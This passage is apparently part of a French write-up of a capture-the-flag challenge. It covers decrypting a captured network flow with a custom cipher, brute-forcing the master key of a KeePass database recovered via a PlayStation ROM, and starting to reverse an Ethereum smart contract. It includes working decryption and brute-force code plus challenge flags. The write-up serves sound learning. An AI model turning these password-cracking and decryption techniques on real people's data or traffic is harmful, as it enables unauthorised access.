            step8 = step4 ^ ((step7 + (SBOX[(step7 + CST) & 0xFF] << 8) + CST) & 0xFFFFFFFF)

            OUT_LEFT = step6
            OUT_RIGHT = step8

            if mode == Coconut98.MODE_DECRYPT:
                if i >= 8:
                    PREV_LEFT, PREV_RIGHT = struct.unpack("<II", payload[i-8:i])
                else:
                    PREV_LEFT = PREV_RIGHT = 0
                OUT_LEFT ^= PREV_LEFT
                OUT_RIGHT ^= PREV_RIGHT
            out_payload += struct.pack("<II", OUT_LEFT, OUT_RIGHT)
            i += 8
        return out_payload

def test():

    payload = b"\x26\x00\x00\x00\x00\x5f\x8d\x13\x8b\x0b\xd6\x01\x00\x70\xfd\xb2"
    encrypted_payload = b"\xA7\x7C\x81\xAA\x49\x00\x60\x35\x47\xB4\xFF\xF3\xB0\x83\x95\xFC"

    coconut_key = struct.pack(">IIIIIIII", 
        0x354da39f, 0xd1532f07, 0xe0fb29d0, 0x1c1418b5, 
        0x7a85e9ba, 0xf363c5ae, 0x421bddef, 0x79fcd292)

    coco = Coconut98(coconut_key)
    cipher=coco.encrypt(payload)
    assert(cipher==encrypted_payload)
    res = coco.decrypt(encrypted_payload)
    assert(res == payload)

if __name__ == '__main__':

    test()

    if len(sys.argv) == 2:
        flow_path = sys.argv[1]
    else:
        flow_path='../../tcpflow/192.168.020.128.01041-192.168.020.001.00443'
    with open(flow_path, 'rb') as f:
        flow = f.read()

    # Key extracted using ollydbg
    coconut_key = struct.pack(">IIIIIIII", 
        0x354da39f, 0xd1532f07, 0xe0fb29d0, 0x1c1418b5, 
        0x7a85e9ba, 0xf363c5ae, 0x421bddef, 0x79fcd292)

    coco = Coconut98(coconut_key)

    i = 0
    while i < len(flow):
        # Decrypt struct _WIN32_FIND_DATAA
        file_header = coco.decrypt(flow[i:i+0x140])
        # hexdump.hexdump(file_header)
        file_size, = struct.unpack("<I", file_header[32:36]) # dnFileSizeLow
        file_name = file_header[44:44+260] # cFileName
        file_name_length = file_name.index(b'\x00')
        file_name = str(file_name[0:file_name_length], 'utf-8')
        print(f'Decrypting file: {file_name}, size = {file_size}')
        if file_size % 8:
            aligned_size = file_size + (8 - (file_size % 8))
        else:
            aligned_size = file_size
        encrypted_file_entry = flow[i:i+0x140+aligned_size]
        file_entry = coco.decrypt(encrypted_file_entry)
        file_payload = file_entry[0x140:]
        with open(f'output/{file_name}', 'wb') as f:
            f.write(file_payload[0:file_size])
        i += 0x140 + aligned_size
```

### Déchiffrement des fichiers

L'exécution du script permet d'extraire les fichiers suivants:

```
Decrypting file: desktop.ini, size = 125
Decrypting file: screensaver.iso, size = 2488416
Decrypting file: KeyProvider.dll, size = 9105
Decrypting file: wallpaper.jpg, size = 69149
Decrypting file: KeePass.exe, size = 719872
Decrypting file: KeePass.ini, size = 92
Decrypting file: Database.kdb, size = 1452
Decrypting file: flag.txt, size = 72
```

Le fichier `flag.txt` contient le flag permettant de valider l'étape 4
```
SSTIC{e5a35d6b392b2bbe4af78614076b0fbb03f33aa5dd5bf92fd247a7d2a00a5247}
```

## Étape 5

### Analyse d'un module KeePass

Parmi les fichiers extraits lors de l'étape précédente, nous retrouvons notamment:

```
KeyProvider.dll: PE32 executable (DLL) (console) Intel 80386 (stripped to external PDB), for MS Windows
KeePass.exe:     PE32 executable (GUI) Intel 80386, for MS Windows, UPX compressed
Database.kdb:    Keepass password database 1.x KDB, 6 groups, 3 entries, 6000 key transformation rounds
```

 * `KeePass.exe`: binaire permettant d'exécuter une version de KeePass 1.x, qui fonctionne sur un système Windows 98
 * `Database.kdb`: base de données KeePass de CeriseLiquide
 * `KeyProvider.dll`: plug-in KeyPass non connue

Après avoir essayé sans succès d'utiliser le flag de l'étape 4 comme Master Key du fichier `Database.kdb` ,
j'ai regardé le module `KeyProvider.dll`.

Ce module exporte les fonctions suivantes: 

  * `KeePluginInit`
  * `KeePluginCall`
  * `KeePluginExit`
  * `DllMainCRTStartup` 

La fonction `KeePluginCall` permet le dispatch des messages envoyés par KeePass, à destination du plug-in.

Le message `KPM_KEYPROV_QUERY_KEY` (0x3D), géré par la fonction `QueryProvKey`, permet au plug-in de spécifier la clé de chiffrement dans une structure de type `KP_KEYPROV_KEY`:

```
00000000 KP_KEYPROV_KEY  struc ; (sizeof=0x10, mappedto_6)
00000000 dwType          dd ?
00000004 dwFormat        dd ?
00000008 lpData          dd ?
0000000C dwDataSize      dd ?
00000010 KP_KEYPROV_KEY  ends
```

La clé de chiffrement retournée par le plug-in est lue sur le port série `COM1`, configuré de la manière suivante:
 * 115200 bauds
 * 8 bits de données
 * Pas de bit de parité

Une fois la connexion établie, le plug-in écrit le caractère `?` sur le port, puis fait une demande de lecture de 20 octets.

Une vérification sur la taille des données lues indique que seule une clé de 20 octets est valide.

On notera l'utilisation des fonctions de l'API Win32 suivantes:

 * CreateFileA
 * GetCommTimeouts
 * SetCommTimeouts
 * GetCommState
 * SetCommState
 * WriteFile
 * ReadFile

### Analyse d'une ROM Playstation 1

#### Mise en place de l'environnement

Parmi la liste des fichiers extraits lors de l'étape précédente, nous retrouvons également le fichier `screensaver.iso`. 
La commande `file` n'est pas d'une très grande utilité:

```
screensaver.iso: data
```

En revanche, la commande `strings` fait ressortir la chaine de caractères suivante:

```
BOOT=cdrom:\MAIN.EXE;1
```

Une recherche en source ouverte nous amène vers différent blogpost en rapport avec PSYQ (Playstation 1 Software Development Kit).

L'émulateur `No$Psx` (https://problemkaputt.de/psx.htm), recommandé par mon collègue `@angel_killah`, permet de confirmer que le fichier est bien une image de jeu Playstation 1:



Cet émulateur intègre également un déboguer très complet (breakpoints, affichage de la stack, dump de pages mémoires, ...) qui s'avérera 
très utile pour résoudre cette étape.

L'outil `jpsxec` (https://github.com/m35/jpsxdec) est également utilisé pour extraire un fichier exécutable de type `PS-X`:

```
MAIN.EXE: Sony Playstation executable PC=0x80018230, .text=[0x80018000,0x4800], Stack=0x801ffff0, ()
```

#### Analyse de la ROM

La Playstation 1 embarque un CPU R3000A, de type RISC, qui implémente le jeu d'instruction MIPS I (32-bit, little endian). L'architecture MIPS32-LE est supporté par Ghidra, qui intègre un décompileur indépendant de l'architecture, contrairement à ma version de IDA, où Hex-Rays ne supporte que les architectures x86, x64 et ARM.

Le chargement du fichier `PS-X` dans Ghidra permet de commencer l'analyse statique.

Une seule fonction est reconnue par Ghidra. Celle-ci implémente une boucle permettant de copier un second stage, et de rediriger le flux d'exécution vers celle-ci. Le second stage est similaire au premier et permet de charger une nouvelle section de code, qui sera dumpée sur le disque puis chargée de nouveau 
dans Ghidra. On peut désormais observer le CFG de la fonction principale, dans laquelle s'exécute une boucle infinie:

<p align="center">

</p>

À chaque tour de boucle, les opérations suivantes sont réalisées:
 * Tentative de lecture / écriture sur le port série
 * Traitement des entrées utilisateur
 * Dérivation de la clé
 * Mise à jour du frame-buffer

##### Communication sur le port série

L'analyse du plug-in KeePass `KeyProvider.dll` nous apprend que le caractère `?` est envoyé, et qu'une clé de 20 octets est attendue sur un port série.
Dans la fonction principale de la ROM, on identifie une tentative de lecture de 1 octet, sur le port série de la Playstation. Si le caractère `?` est reçu, 
une boucle est exécutée pour écrire, octet par octet, un buffer 20 octets. On déduit en donc que CeriseLiquide utilise sa Playstation pour fournir la master key au programme `KeyPass.exe`, via le plug-in `KeyProvider.dll`.

##### Traitement des entrées utilisateur

<!--  -->

Les boutons Triangle, Carré, Rond et Croix de la mannette sont utilisés pour saisir une clé de 8 caractères.
L'appui d'un bouton permet d'écrire un caractère de la clé, respectivement `d`, `s`, `x`, `z` pour les boutons
Triangle, Carré, Rond et Croix. L'offset permettant d'écrire le nième caractère de la clé est incrémenté à 
chaque appui sur un bouton, et est calculé modulo 8.

L'émulateur `No$Psx` possède par défaut le mapping des touches `X`, `W`, `Espace` et `Alt` aux boutons  Triangle, Carré, Rond et Croix,
et permet ainsi de saisir la clé.

##### Dérivation de la clé

La fonction de hash RIPEMD-160 est utilisée pour dériver la clé saisie par l'utilisateur, et produire un condensat de
20 octets (160-bits). Deux contextes de hash sont utilisés, et sont mis à jour via différentes opérations sur des buffer
d'entrée de 64 octets. Une des opérations sur le premier contexte prend en paramètre la clé d'entrée. Le second contexte
sera mis à jour en fonction de l'état du premier contexte. Le condensat associé au second contexte est celui envoyé sur
le port série, et donc la master key attendue par le plug-in `KeyProvider.dll`.

La clé d'entrée étant composée de 8 caractères ayant chacun 4 valeurs possibles, une attaque par brute-force de 4<sup>8</sup> (65536) combinaisons 
permettra ainsi de tester l'ensemble des clés. Le programme suivant réimplémente la dérivation de la clé et permet 
de générer les 65536 master key possibles:

```c
#include <string.h>
#include <stdint.h>
#include <stdio.h>
#include <assert.h>
#include <unistd.h>
#include <openssl/ripemd.h>

#ifndef DEBUG
 #define printf(fmt, ...) (0)
#endif

// #define DEBUG

#define KEY_X 0x64   // Triangle 
#define KEY_W 0x73   // Carre
#define KEY_SP 0x78  // Rond
#define KEY_ALT 0x7A // Croix

static const uint8_t KEYS[4] = {
    KEY_X,
    KEY_W,
    KEY_SP,
    KEY_ALT
};

/* Hardcoded key */
static const uint8_t xor_key_data[0x2B] = {
    0x97,0x8b,0x8b,0x8f,0x8c,0xc5,0xd0,0xd0,
    0x88,0x88,0x88,0xd1,0x86,0x90,0x8a,0x8b,
    0x8a,0x9d,0x9a,0xd1,0x9c,0x90,0x92,0xd0,
    0x88,0x9e,0x8b,0x9c,0x97,0xc0,0x89,0xc2,
    0xbc,0x94,0x89,0xaa,0xbe,0x93,0xc8,0xa6,
    0xcb,0x92,0x88
};

// uint8_t good_key[8] = { KEY_ALT, KEY_SP, KEY_X, KEY_W, KEY_ALT, KEY_SP, KEY_X, KEY_W};

int derivate_one_key(uint8_t *input_key)
{
    RIPEMD160_CTX ctxA, ctxB;
    uint8_t buff_A[0x40];
    uint8_t buff_B[0x40];
    uint8_t buff_key[0x40];
    uint8_t buff_final[0x40];
    uint8_t key[8];
    int ret;

    memset(key, 0, sizeof(key));

    for (int i = 0; i < 8; i++) {
        RIPEMD160_Init(&ctxA);
        RIPEMD160_Init(&ctxB);

        memset(buff_A, '6', 0x40);
        memset(buff_B, '\\', 0x40);
        memset(buff_key, 0, 0x40);

        /* Modify 43 bytes / 64 bytes */
        for (int j = 0; j < 0x2b; j++) {
            buff_A[j] ^= xor_key_data[j];
            buff_B[j] ^= xor_key_data[j];
        }

        /* Update context based on previous XOR operation */
        RIPEMD160_Update(&ctxA, buff_A, 0x40);
        RIPEMD160_Update(&ctxB, buff_B, 0x40);

        key[i] = input_key[i];
        memcpy(buff_key, key, 8);

        /* Overlapping buffer */
        buff_key[8] = 0x80;
        buff_key[56] = 0x40;
        buff_key[57] = 0x02;

        /* Update first context based on input key */
        RIPEMD160_Update(&ctxA, buff_key, 0x40);
    
        memset(buff_final, 0, 0x40);
        memcpy(buff_final, &ctxA.A, 0x14);
         /* Overlapping buffer */
        buff_final[0x14+0] = 0x80;
        buff_final[0x14+0x24] = 0xA0;
        buff_final[0x14+0x25] = 0x02;
        /* Update second context based on first context */
        RIPEMD160_Update(&ctxB, buff_final, 0x40);

    }

    /* Write on stdout the 20 bytes digest */
    ret = write(1, &ctxB.A, 0x14);
    assert(ret == 0x14);

    return 0;
}

int derivate_all_keys()
{
    uint8_t key[8];
    for (int i = 0; i <= 65535; i++) {
        for (int j = 0; j < 8; j++) {
            key[j] = KEYS[(i >> (2*j)) & 3];
        }
        derivate_one_key(key);
    }
    return 0;
}

int main(int argc, char *argv)
{
    derivate_all_keys();
    return 0;
}
```

Un script python, est utilisé en complément, pour lire sur l'entrée standard l'ensemble des master key générées, et essayer
 de déchiffrer le fichier de base de données Keepass `Database.kdb`, via l'utilisation du module `kppy` légèrement modifié:

```python
#!/usr/bin/env python3

import sys
import hexdump
from kppy.database import KPDBv1
from kppy.exceptions import KPError

def load_db(filepath, password):
    db = KPDBv1(filepath, password, read_only=True)
    try:
        db.load()
    except KPError:
        return False
    return True

if __name__ == '__main__':

    if len(sys.argv) == 2:
        filepath = sys.argv[1]
    else:
        filepath='../Database.kdb'

    for i in range(0,65536):
        print(f'Trying key {i}')
        password_b = sys.stdin.buffer.read(20)
        # Convert to string to avoid KPError: filepath, masterkey and keyfile must be a string
        password_s = "".join([chr(c) for c in password_b])
        assert(len(password_s) == 20)
        if load_db(filepath, password_s):
            print('Key is good')
            hexdump.hexdump(password_b)
            sys.exit(0)

    sys.exit(1)
```

On obtient ainsi la master key permettant de déverrouiller le fichier de base de données Keepass `Database.kdb`:

```
Trying key 0
Trying key 1
..
Trying key 53985
Key is good
00000000: 2D 3C DC 09 E0 39 D8 89  28 B9 E9 88 B9 65 3C E5  -<...9..(....e<.
00000010: C2 94 FE 4B                                       ...K
```

La base `Database.kdb` contient le flag de l'étape 5, et permet l'import des clés megolm de CeriseLiquide:

```
SSTIC{02879b337f4987351d11e90570c91a696320a9985a7d6923dc2d1da3cfe6155b}
```

## Étape 6

L'import des clés megolm de CeriseLiquide donne accès à une conversation avec FraiseGlacée,
où ce dernier explique qu'il a développé un système de messagerie basé sur la BlockChain:

```
Kazh-Boneg a l'air de bien marcher :)
mais j'ai peur que les autorités ne parviennent à en faire affaiblir la sécurité, auquel cas il faudra encore migrer.
pour préparer une telle situation, j'ai développé un tout nouveau système de messagerie, basé sur la BlockChain !
on pourra l'utiliser en cas d'urgence, pour s'envoyer des messages d'alertes.
```

FraiseGlacée envoie le binaire `alaide`, utilisé pour l'envoi de message, et fournie une impression d'écran où 
la commande `htop` montre l'exécution du binaire `aleth`. Ce dernier n'est pas fourni, mais est décrit comme 
étant le noeud qui récupère les messages. Enfin, FraiseGlacée envoi ses clés megolm (`fraiseglacee.megolm_keys.txt`) et la mémoire du 
contrat (`contract_memory.txt`) associé à l'envoi d'un message contenant la passphrase de ses clés:

```
pour te prouver que je pense que c'est suffisamment robuste, j'ai posté un message dessus qui contient la passphrase de mes clés Kazh-Boneg. Tu peux tenter de le déchiffrer, mais tu n'y arriveras pas ;)
Au cas où tu n'aies pas accès à notre blockchain où tu es car toi aussi tu dois rester confiné chez toi, voici la mémoire du contrat utilisé :
``` 

Le fichier `contract_memory.txt` est le suivant:
```
Memory slot 755311B9E2CEE471A91B161CCC5DEED933D844B5AF2B885543CC3C04EB640983 = 000000000000000000000000000000009189E739289CEA74276B13D26DBE09B4
Memory slot 68FB8E7CAD479CCC9244A179D64897454189FD25DB04E15D3A5135327A17597B = 0000000000000000000000000000000098F6D5A0E9039AF0B549FBED480C324C
Memory slot A6EEF7E35ABE7026729641147F7915573C7E97B47EFA546F5F6E3230263BCB49 = 00000000000000000000000000000000BD77247EFD5026120EC466DC0BF48F78
Memory slot 02D9F8353BCA53BC9B195AA186AB6D98B49A9120C00257EE2C7D860C26F864EA = 0000000000000000000000000000000050B94C75C93671A2CE180634059D9800
Memory slot 74A5FBCB419AB7DBACBB2C92A4E163730F0DA5C72B911DEECF4F05A6B327D0A4 = 00000000000000000000000000000000BFF717B395416071B54CD1E19274B4D8
Memory slot 86B3FA87EE245373978E0D2D334DBDE866C9B8B039036B87C5EB2FD89BCB6BAB = 00000000000000000000000000000000D6F457E826D92CD3B122417D728927B3
Memory slot 0000000000000000000000000000000000000000000000000000000000000000 = 0000000099EB8BB96FF8580A5245205230305421B42CC50912EA778600000020
Memory slot 467A5C61216CAD3003BC3395C339807C735D5C3D989CA4BC0EF2A37E14CE2679 = 0000000000000000000000000000000045884FAA578E3CA131CBEF423EA3F68C
Memory slot AF2AFAF35AD6DA1368C28C91BA52A84B6FC26E5AA0D9B26DC4FA0373E4D12C30 = 0000000000000000000000000000000039426851D22DDF6C6D3DD9627DE11F8C
Memory slot 31FF9DA46623DED696608610C3749320B1CB2C2DFD644B1139DA5367A8E616CF = 000000000000000000000000000000005790098E78097C66F47F1833A8329758
Memory slot 4E788733FE0BFF9AF5F3E3A353367490C603293E53707FE7E4E0071B9ED497D6 = 00000000000000000000000000000000BB8476D9103C116AF663106A9E2DB2F4
Memory slot 80F14989282B60FA53CDD4F20DDDF40419D0398091709CCEEF4EA6608CB53A86 = 00000000000000000000000000000000348912D16CDFF19B53632544E24155CC
Memory slot CC69885FDA6BCC1A4ACE058B4A62BF5E179EA78FD58A1CCD71C22CC9B688792F = 0000000000000000000000000000000042D91B8FD115E27863C53462655BCA4B
Memory slot C8D233A0EBEF7C9A17D2B0B17EEA62CCA39002A128CCF419119B4A1A1F1E7428 = 000000000000000000000000000000005BDDAAE22D5F3DA9B536582CB9A17298
Memory slot BDBFD5FE12B0725F9A86EFFBF0320821EB71455F8B2A1271FAE01B3621E6F172 = 000000000000000000000000000000003BD1AF68A64ADFA69329E9995FFE9C37
Memory slot EDC95719E9A3B28DD8E80877CB5880A9BE7DE1A13FC8B05E7999683B6B567643 = 000000000000000000000000000000009A58B3845230BCCDA2D68691B0F85CD3
Memory slot 41CB80F82BADDDD72E38FDA86A7CBBA38FAFD9735EF98C7795ABBBAF2B149562 = 00000000000000000000000000000000D7D98A01C0DFE62BB863FD73F98EBE62
Memory slot 7DFE757ECD65CBD7922A9C0161E935DD7FDBCC0E999689C7D31633896B1FC60B = 000000000000000000000000000000009B0656AF78A7CCC5FA58ECE282AFB5BC
Memory slot D6E773D900EC812417038DA9BAF6D960FCC201DD4BFA0D6323C29C7F6D7D874A = 0000000000000000000000000000000038095B8DCA7F3080760F2E79D4DEAD87
Memory slot 2480FE25EE21F0B2BC289CCFF6DF415947190B288094AB9F0CBD50F7B814FD5E = 00000000000000000000000000000000C1E6D58E626E0B544310B623021C4E9F
Memory slot 8F331ABE73332F95A25873E8B430885974C0409691F89D643119A11623A7924A = 0000000000000000000000000000000010D4DBA09B5D1C148B11EFF397A19205
Memory slot 57AAAFA65C4E563D39FFF90096A5FA76D42117F53D87EF870784E64D63A8A16B = 0000000000000000000000000000000075863546676FC6615A15F2C6C09F4933
Memory slot D9D16D34FFB15BA3A3D852F0D403E2CE1D691FB54DE27AC87CD2F993F3EC330F = 000000000000000000000000000000002D4B53BD572BC0E509147E49720F2DBB
Memory slot E2689CD4A84E23AD2F564004F1C9013E9589D260BDE6380ABA3CA7E09E4DF40C = 000000000000000000000000000000007AACC07CC54BE008851A06A6882974D4
Memory slot 23BF72DF16F8335BE9A3EDDFB5EF1C739B12847D13A384EC83F578699D38EB89 = 0000000000000000000000000000000090650EDF445FD692FAEC1AE30936F9C4
Memory slot 40165E7164257B249280BF839A50283D248062ED7B0E6D8820CB6C506BFCF7D3 = 00000000000000000000000000000000BCE46085EA23920E095E54F51316397F
Memory slot FC80CD5FE514767BC6E66EC558E68A5429EA70B50FA6CAA3B53FC9278E918632 = 00000000000000000000000000000000858E2D7034EA8DBDA7097DDF36428E2A
Memory slot 12BD632FF333B55931F9F8BDA8B4ED27E86687F88C95871969D72474FB428C14 = 00000000000000000000000000000000AC530B4036B0AFCD3E21EA92B858F6A9
Memory slot 4DB623E5C4870B62D3FC9B4E8F893A1A77627D75AB45D9FF7E56BA19564AF99B = 00000000000000000000000000000000EB0BA52C2D94D5E994A0FD02953CA525
Memory slot DC686EC4A0FF239C70E7C7C36E8F853ECED3BC8618F48D2B816DA2A74311237E = 000000000000000000000000000000003D66028DE2A301537EB6A37E0A7D9578
Memory slot DDD2ED02835F51D041D738F145BF914E284838547C9BCC952EA4F9DE82C9F093 = 000000000000000000000000000000000DF3FD6B4949300E52D624E02E1DCEB0
Memory slot 2A32391A76C35A36352B711F9152C0D0A340CD686850C8EF25FBB11C71B89E7B = 0000000000000000000000000000000009BD86249E977C79655D20569DCD3571
Memory slot 2B00120B81607971383F6F5676C1551D6BB27BE3F263689FD3630E1A5BE14018 = 000000000000000000000000000000008B656CF9792301C29A786BAD639C3919
```

L'objectif est donc de retrouver le message envoyé par FraiseGlacée, en se basant sur le fichier `contract_memory.txt` et le binaire `alaide`.

### Mise en place du noeud aleth

`aleth` est un programme open-source (https://github.com/ethereum/aleth) permettant l'implémentation d'un client `Ethereum`.
`Ethereum` est un protocole d'échanges décentralisés permettant la création par les utilisateurs de contrats intelligents (Smart Contract) grâce à un langage Turing-complet. La crypto-monnaie `Ether` est justement basée sur ce protocole, où l'échange de monnaie est caractérisé par l'exécution d'un Smart Contract.

Lors de la mise en place d'un nouveau noeud, le programme `aleth` a besoin d'un fichier de configuration permettant de créer le tout premier bloc appelé « bloc genesis ». Ce fichier json est extrait du programme `alaide`:

```json
{
    "sealEngine": "Ethash",
    "params": {
        "accountStartNonce": "0x00",
        "maximumExtraDataSize": "0x20",
        "homesteadForkBlock": "0x00",
        "EIP150ForkBlock": "0x00",
        "EIP158ForkBlock": "0x00",
        "byzantiumForkBlock": "0x00",
        "constantinopleForkBlock": "0x00",
        "constantinopleFixForkBlock": "0x00",
        "minGasLimit": "0x5208",
        "maxGasLimit": "0x7fffffffffffffff",
        "tieBreakingGas": false,
        "gasLimitBoundDivisor": "0x0400",
        "minimumDifficulty": "0x80",
        "difficultyBoundDivisor": "0x0800",
        "durationLimit": "0x0d",
        "blockReward": "0x4563918244F40000",
        "networkID": "0x42",
        "chainID": "0x42",
        "allowFutureBlocks": false
    },
    "genesis": {
        "nonce": "0x0000000000000042",
        "difficulty": "0x80",
        "mixHash": "0x0000000000000000000000000000000000000000000000000000000000000000",
        "author": "0x0000000000000000000000000000000000000000",
        "timestamp": "0x5A5B92D7",
        "parentHash": "0x0000000000000000000000000000000000000000000000000000000000000000",
        "extraData": "0x655741534d2074657374206e6574776f726b2030",
        "gasLimit": "0x7fffffffffffffff"
    },
    "accounts": {
        "00fd4aaf9713f5bb664c20a462acc4ebc363d1a6": {
            "balance": "0x200000000000000000000000000000000000000000000000000000000000000"
        },
        "007e086fa8061b0a1b807aae2bca37289e233238": {
            "balance": "0x200000000000000000000000000000000000000000000000000000000000000"
        }
    }
}
```

Après compilation du binaire `aleth` depuis le projet github, il possible de démarrer le noeud, tel qu'illustré sur l'impression
d'écran de la commande `htop`:

```
aleth --config config.json --ipc --admin password -m off --no-discovery --listen 30303 -d tmp0 --db-path tmp0
```

### Utilisation du binaire alaide

Le binaire `alaide` est un fichier ELF 64-bit, compilé en statique:

```
alaide: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=d3d3cd6d2254e8b0974bc56eded9d0dbf9ea0348, stripped
```

Il prend en paramètre l'adresse du noeud `aleth` avec lequel il va synchroniser les différents blocs résultants de l'exécution 
des smarts contract, ainsi qu'une chaine de caractère correspondant au message à envoyer sur la BlockChain:

```
Usage :

    alaide PEER MESSAGE

Where PEER is 'local' or 'enode://peer' and MESSAGE is an ASCII string (max. 256 characters)
If 'local' is used, message won't be synchronized with a remote peer.
```

Exemple d'utilisation:

```
remi@sstic:~/stage6$ ./alaide "local" $(python -c 'print "A"*256')
               __
              /--
     _______ //
    /_______'/|    Alaide !
    [        ]|    ========
    [ Jus de ]|
    [ cerise ]|    Envoi d'un SOS sur la blockchain du Sivi Ha Kerez
    [   .    ]|    Basée sur aleth 1.8.0
    [ _/ \_  ]|
    [(_) (_) ]/
    '--------'

Deploying...
Smart contract has been deployed.
Sending message part 1/32 ...
...
Sending message part 32/32 ...
Contract memory is now :
Memory slot 755311B9E2CEE471A91B161CCC5DEED933D844B5AF2B885543CC3C04EB640983 = 00000000000000000000000000000000351B3F8DBD9119857C84CBF811034E55
...
Memory slot 2B00120B81607971383F6F5676C1551D6BB27BE3F263689FD3630E1A5BE14018 = 00000000000000000000000000000000FCA858E5D361284927D7E6CA86930480
Done.
```

### Reverse du binaire alaide

Suite au chargement du binaire dans IDA, 17088 fonctions sont reconnues. Le binaire embarque la `libstdc++`,
compilé en statique, ainsi que de nombreuses dépendances assez lourdes telles que la librairie `boost`.
Ce programme étant basé sur `aleth`, j'ai utilisé `YaCo` (https://github.com/DGA-MI-SSI/YaCo), présenté au SSTIC, 
afin de propager les symboles du fichier idb de `aleth` (compilé en statique et non strippé) vers le fichier `idb` de `alaide` (strippé).

Le chiffrement du message est effectué en 2 parties:
 * Via différentes opérations reversibles, appliquées sur le buffer d'entrée
 * Via l'exécution d'un smart contract, prenant comme entrée la sortie de la première partie

#### Chiffrement d'un message (pré smart contract)

Le message de 256 octets est découpé en 32 entiers de 64-bits.
Différentes opérations sont effectuées sur ces entiers, avant d'être passées en paramètre à une fonction d'un smart contract.
Le smart contract est créé une fois par message, et est utilisé pour l'envoi des 32 entiers de 64-bits.

##### 1. Bitflip

La première opération consiste à modifier (ou non) le 7e bit de chaque octet du message, 
en fonction de la position de l'octet dans le message.

La fonction python `build_bitflip_table` permet de reconstituer un tableau 32 entiers de 64-bits,
permettant d'inverser cette opération via un XOR.

##### 2. Échange des valeurs du tableau

La seconde opération consiste à échanger les valeurs du tableau des 32 entiers, pour chaque entier
du tableau, selon des indices générés par un PRNG.

Ainsi, les entiers de 64 bits, passés en paramètres au smart contract, ne sont pas envoyés dans 
l'ordre croissant, mais dans un ordre dépendant du seed utilisé par le PRNG.

Le seed utilisé par le PRNG est généré via la lecture d'un entier de 64 bits sur `/dev/urandom`,
où seuls les 32 bits de poids faible sont utilisés.

Le seed est passé en paramètre au constructeur du smart contract, et peut ainsi être retrouvé,
ce qui permet de restaurer l'ordre original des valeurs du tableau.

La fonction python `build_swap_index_table` permet d'obtenir un tableau de 32 entrées contenant la position
des indices originaux, et donc l'inversion de cette opération.

##### 3. XOR

Une fois l'inversion des indices du tableau effectué, chaque entier du tableau est XORé avec 
un entier de 64-bit généré par le PRNG.

Le seed utilisé est identique à celui utilisé lors de l'étape précédente.

La fonction python `build_xor_qword_table` permet de construire le tableau de 32 entiers généré par 
le PRNG, et donc l'inversion de l'opération.


### Reverse du smart contract

Le binaire `aleth` embarque le fichier json contenant le bytecode EVM spécifié lors de la création du smart contract:

```
{
    "code": "0x60806040523480156100115760006000fd5b506040516106c03803806106c0833981810160405260208110156100355760006000fd5b81019080805190602001909291905050505b6000600060006101000a81548163ffffffff021916908363ffffffff16021790555080674d3044205351554118600060046101000a81548167ffffffffffffffff021916908367ffffffffffffffff160217905550600060049054906101000a900467ffffffffffffffff16600060146101000a81548167ffffffffffffffff021916908367ffffffffffffffff1602179055506752452052303054216000600c6101000a81548167ffffffffffffffff021916908367ffffffffffffffff1602179055505b50610113565b61059e806101226000396000f3fe60806040523480156100115760006000fd5b50600436106100825760003560e01c8063b5b6d2a81161005c578063b5b6d2a8146100ee578063d1e8507b14610134578063e1ef28781461019b578063fe9272cc146101cd57610082565b806326987b6014610088578063863b2769146100b2578063a67f8c90146100e457610082565b60006000fd5b6100906101ff565b604051808263ffffffff1663ffffffff16815260200191505060405180910390f35b6100ba610215565b604051808267ffffffffffffffff1667ffffffffffffffff16815260200191505060405180910390f35b6100ec61022f565b005b610132600480360360408110156101055760006000fd5b81019080803567ffffffffffffffff169060200190929190803560ff16906020019092919050505061031b565b005b6101616004803603602081101561014b5760006000fd5b8101908080359060200190929190505050610500565b60405180826fffffffffffffffffffffffffffffffff166fffffffffffffffffffffffffffffffff16815260200191505060405180910390f35b6101a3610534565b604051808267ffffffffffffffff1667ffffffffffffffff16815260200191505060405180910390f35b6101d561054e565b604051808267ffffffffffffffff1667ffffffffffffffff16815260200191505060405180910390f35b600060009054906101000a900463ffffffff1681565b600060149054906101000a900467ffffffffffffffff1681565b6000600090505b60408110156103175760006000600c9054906101000a900467ffffffffffffffff16600060149054906101000a900467ffffffffffffffff1616905060008190506000600190505b60408110156102a957808367ffffffffffffffff16901c8218915081505b808060010191505061027e565b50603f8167ffffffffffffffff16901b6001600060149054906101000a900467ffffffffffffffff1667ffffffffffffffff16901c17600060146101000a81548167ffffffffffffffff021916908367ffffffffffffffff16021790555050505b8080600101915050610236565b505b565b6020600060009054906101000a900463ffffffff1663ffffffff161015156103435760006000fd5b60008160ff1690506000600090505b60088160ff1610156103ac576008810260ff168267ffffffffffffffff16901b84189350835060078267ffffffffffffffff16901c60fe60018467ffffffffffffffff16901b1617915081505b8080600101915050610352565b506103bb61022f63ffffffff16565b6000600060149054906101000a900467ffffffffffffffff1690508084189350835060006f854e9fb4699ed8f22fd89ebe3f17f7f6905060006fd677105721b51a080288a52f7aa48517905060008667ffffffffffffffff1682028767ffffffffffffffff168867ffffffffffffffff16850202016fffffffffffffffffffffffffffffffff1690506fffffffffffffffffffffffffffffffff811660016000506000600060009054906101000a900463ffffffff1663ffffffff16815260200190815260200160002060006101000a8154816fffffffffffffffffffffffffffffffff02191690836fffffffffffffffffffffffffffffffff1602179055506000600081819054906101000a900463ffffffff168092919060010191906101000a81548163ffffffff021916908363ffffffff1602179055505050505050505b5050565b600160005060205280600052604060002060009150909054906101000a90046fffffffffffffffffffffffffffffffff1681565b600060049054906101000a900467ffffffffffffffff1681565b6000600c9054906101000a900467ffffffffffffffff168156fea264697066735822122004b21aaa5ce3676e8d742309383f5e711de6f2cc148188fffd716a54d070697964736f6c63430006000033000000000000000000000000000000000000000000000000",
    "gas": 2200000
}
```

Ce bytecode est interprété par une machine virtuelle Ethereum (https://ethervm.io/).
Un module processeur pour IDA est disponible est source ouverte (https://github.com/crytic/ida-evm), et permet de désassembler le bytecode EVM.
En revanche, certaines instructions ne sont pas supportées, et l'utilisation de prédicat opaque altère la reconstruction du CFG.

Le binaire `aleth`, via l'option `--log-vmtrace`, permet de dumper la stack et le stockage associé à un smart contract, pour chaque instruction exécutée. 

#### Constructeur

Le constructeur est exécuté à la création du smart contract.
Il prend en paramètre le seed utilisé par le PRNG implémenté dans le binaire `aleth`,
et initialise le stockage à l'adresse 0, via la création d'un entier de 256 bits: 

```python
def func_constructor(contract_value):
    re_root = 0x5245205230305421 # 'RE R00T!'
    xor_mod_squa = 0x4d30442053515541 # 'M0D SQUA'
